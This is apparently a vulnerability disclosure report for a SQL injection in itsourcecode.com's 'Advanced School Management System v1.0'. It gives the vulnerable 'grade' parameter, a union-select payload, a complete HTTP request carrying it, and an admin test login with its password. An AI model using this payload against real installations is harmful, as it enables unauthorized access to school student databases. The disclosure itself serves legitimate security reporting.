 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: [suarez081119@gmail.com](mailto:suarez081119@gmail.com)/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: /school/view/student_grade_wise.php?grade=

Vulnerability location: /school/view/student_grade_wise.php

[+] Payload: /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23

Leak place ---> grade

the sql injection is：11' union select database(),2,3;#

Current database name: std_db, length is 6

Request package for Select all students whose grade is specified：

```
GET /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/all_student.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

SQL injection result is as follows，line 6 database name is displayed.

![image-20220624163833913](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/advanced-school-management-system/sql_injection.assets/image-20220624163833913.png)